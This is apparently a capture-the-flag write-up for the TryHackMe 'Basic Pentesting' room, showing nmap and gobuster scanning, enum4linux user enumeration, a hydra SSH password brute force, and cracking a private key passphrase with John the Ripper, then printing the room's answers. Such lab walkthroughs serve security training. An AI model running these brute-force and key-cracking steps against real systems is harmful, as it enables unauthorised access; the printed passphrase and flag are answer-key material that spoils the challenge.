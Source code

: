 # [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

> This is a machine that allows you to practise web app hacking and privilege escalation

## Scanning

scan the machine

```
nmap -A -T4 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201595571-66955a77-92c2-4595-8b18-7bc2fb6a639b.png)

There are 6 open and 6 filterd ports (total 12) to discover

## HTTP

go to the webpage

![image](https://user-images.githubusercontent.com/90561566/201596415-920d1fe7-db23-45b1-9e5b-cfcdd09538f4.png)

nothing here

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.3.159/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/201596771-7e2d4256-9eaa-48ac-add1-3bfcdc486e68.png)

we find an endpoint at /development

![image](https://user-images.githubusercontent.com/90561566/201596974-894f4168-30ad-44b6-8d77-d9ef6ccbbffc.png)

j.txt

![image](https://user-images.githubusercontent.com/90561566/201597065-11314392-492f-444f-aa6d-8551acf64d46.png)

dev.txt

![image](https://user-images.githubusercontent.com/90561566/201597215-b8a10c73-6708-487a-b95e-4bc690a7008e.png)

hmm, we will use enum4linux to enumerate users 

```
enum4linux -a 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201598898-fb5ba835-85af-45d9-92e4-bc10a91601ef.png)

we can see 2 users are `kay` and `jan` aka K & J in the previous task

## Exploitation

now we use hydra to brute force the password

we have the information about the open ports and SSH is a great candidate

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.3.159
```

wait about 8 mins, there is your password

![image](https://user-images.githubusercontent.com/90561566/201611043-e714f25a-370c-4d0b-966f-51303e662e56.png)

now we can ssh into the server

```
ssh jan@10.10.154.165
```

![image](https://user-images.githubusercontent.com/90561566/201611517-7825cde1-9a90-46a2-b343-2ee76f29dc19.png)

## Privilege Escalation

let's find something around, i see a lot of awesome files in kay folder

![image](https://user-images.githubusercontent.com/90561566/201612657-60cac56f-ed34-4226-b8ce-cbac5069f5e5.png)

we cannot read pass.bak at the moment

but we can crack ssh key

![image](https://user-images.githubusercontent.com/90561566/201613947-e61ae35c-48d6-4ef2-af09-7ccc4128a04d.png)

unfortulately, it requires a passphrase

but we can cat out this file and crack the key with JohnTheRipper by [ssh2john.py](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)

first clone id_rsa to our machine and 

```
python3 ssh2john.py id_rsa > id_rsa.txt
```

crack the passphrase

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.txt
```

![image](https://user-images.githubusercontent.com/90561566/201619172-4071e65c-9f6d-4909-84fa-026919c3a6ab.png)

passphrase is `beeswax`

now ssh to kay account

```
ssh -i id_rsa kay@localhost
```

![image](https://user-images.githubusercontent.com/90561566/201619950-1ab5730f-dc67-474b-9627-08361afd23e3.png)

```
cat pass.bak
```

| Flag | pass.bak |
| --- | --- |
| Answer | heresareallystrongpasswordthatfollowsthepasswordpolicy$$ |

## Bonus

if you still want to root, check out

```
sudo -l -l
```

it say that we can run every command with sudoer

![image](https://user-images.githubusercontent.com/90561566/201621033-46f14051-62cd-4016-a23c-febf577f24ad.png)

Got it! End point

![image](https://user-images.githubusercontent.com/90561566/201621302-854f7c4c-a0f9-4b75-bf9a-d829e9fdb266.png)
